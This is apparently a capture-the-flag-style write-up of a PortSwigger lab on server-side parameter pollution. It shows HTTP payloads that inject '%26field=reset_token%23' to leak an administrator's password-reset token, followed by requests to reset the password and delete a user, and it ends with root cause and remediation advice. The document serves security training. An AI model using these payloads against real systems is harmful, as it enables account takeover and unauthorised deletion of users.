


## Metadata

- **Difficulty:** Practitioner
- **Category:** API testing
- **Lab URL:** [Lab: Exploiting server-side parameter pollution in a query string](https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string)
- **Date Solved:** 30/9/2026
## Vulnerability Summary

The app is vulnerable to server-side parameter pollution, as the server interprets URL-encoded query syntax characters (`#`, `&`) as query syntax characters. Combined with verbose error messages in the response of the server and the exposure of server-side parameter (`reset_token`) in client-side script, an attacker can retrieve the `reset_token` and reset the password of any arbitrary account without knowing the email address or credentials of said account.
## Reconnaissance

- Navigate to the `/login` endpoint, then the `/forgot-password` endpoint. You will be prompted with entering your username. Since we are trying to take control of the `administrator` account, enter this value and submit. This results in a `POST /forgot-password` with the body:
```http
csrf=[token]&username=administrator
```
- Appending the URL encoded `#` character (`%23`) to the `administrator` value in `username` in an attempt to truncate the server-side request yields a `400 Bad Request` HTTP response that reads:
```http
{
  "error":"Field not specified."
}
```
- Field is apparently a required parameter. We include it using the URL-encoded `&`. Sending the request with the body `csrf=[token]&username=administrator%26field=uia%23` still results in a `400 Bad Request`, but this time with a different response body:
```http
{
  "type":"ClientError",
  "code":400,
  "error":"Invalid field."
}
```
We need to find a valid field that helps with the takeover of the `administrator` account.

The `GET /forgot-password` reveals a client-side script at `/static/js/forgotPassword.js`. It reveals the URL template for password resetting:
```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```
Using `reset_token` as the value of the `field` parameter, we get a `200 OK`, with the token in the response:
```http
{
  "result":"[resetToken]",
  "type":"reset_token"
}
```
With the endpoint exposed (`/forgot-password?reset_token=${resetToken}`) and the `resetToken` retrieved, the job left is trivial.
## Exploitation Steps

1. Navigate to the `/login` endpoint, then the `/forgot-password` endpoint. Submit `administrator` as your username when prompted.
2. Intercept the `POST /forgot-password` request, which initially contains this in the request body:
```http
csrf=[token]&username=administrator
```
3. Modify the body to the line below, then send the request:
```http
csrf=[token]&username=administrator%26field=reset_token%23
```
You should receive a `200 OK` HTTP response that reads:
```http
{
  "result":"[resetToken]",
  "type":"reset_token"
}
```
Make a note of this `[resetToken]`.
4. Go to the website and navigate to the endpoint `/forgot-password?reset_token=[resetToken]`. The server should response with 2 fields to enter and confirm your new password:

5. Enter a new simple password, then login with it and the username `administrator`. You should do so successfully, where you can see the "Admin panel" tab with an option to delete user `carlos`. Delete user `carlos` (`GET /admin/delete?username=carlos`), and lab is solved.

## Payload Used

Request to retrieve the token:
```http
POST /forgot-password HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...

csrf=[token]&username=administrator%26field=reset_token%23
```

Request to reset password: `GET /forgot-password?reset_token=[resetToken]` and
```http
POST /forgot-password?reset_token=[resetToken] HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...

csrf=[token]X&reset_token=[resetToken]&new-password-1=a&new-password-2=a
```

Request to delete user `carlos`: `GET /admin/delete?username=carlos`
`%26field=reset_token` overrides the default action (which is emailing the token or checking user validity) and explicitly instructs the backend API to return the `reset_token` attribute directly in the JSON response. The URL-encoded `#` at the end truncates the rest of the query string to prevent syntax error. 
## Root Cause
 
The app constructs backend API requests using unsanitized string concatenation of user-supplied data into query parameters. When incoming request data is decoded by the frontend server, metacharacters such as `&` (parameter delimiter) and `#` (URI fragment identifier) are not escaped, sanitized, or URL-encoded prior to building the secondary backend HTTP request. This enables an attacker to inject arbitrary query parameters and truncate server-appended parameters (Server-Side Parameter Pollution).
## Remediation

- Construct internal URLs using standard URL-builder libraries or URI parameter maps (e.g., Python's `urllib.parse.urlencode`, Java's `UriComponentsBuilder`, Node's `URLSearchParams`) that enforce strict context-aware URL encoding on all values.
- Validate incoming user input against a whitelist. For fields like `username`, reject or strip characters outside expected alphanumeric sets (`[a-zA-Z0-9_.-]`), preventing special characters like `%`, `&`, and `#` from reaching backend query logic.
- Internal API endpoints should enforce strict parameter whitelisting and ignore unexpected fields. Sensitive attributes like `reset_token` should never be retrievable via API query parameters regardless of user role.